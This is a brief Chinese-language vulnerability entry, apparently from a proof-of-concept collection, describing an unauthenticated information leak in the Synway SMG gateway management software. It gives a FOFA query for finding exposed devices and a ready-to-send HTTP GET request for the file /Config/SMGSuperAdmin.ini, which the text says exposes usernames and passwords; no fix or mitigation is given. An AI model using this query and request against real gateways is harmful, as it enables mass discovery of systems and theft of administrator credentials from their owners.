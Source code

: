 # 三汇SMG网关管理软件SMGSuperAdmin信息泄露漏洞

三汇SMG网关管理软件 SMGSuperAdmin 配置文件存在信息泄露漏洞，未经身份认证的攻击者可获取用户名密码等敏感信息，使系统处于极不安全状态。

## fofa

```javascript
app="Synway-网关管理软件"
```

## poc

```javascript
GET /Config/SMGSuperAdmin.ini HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
```

![image-20241211213513890](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412112135943.png)
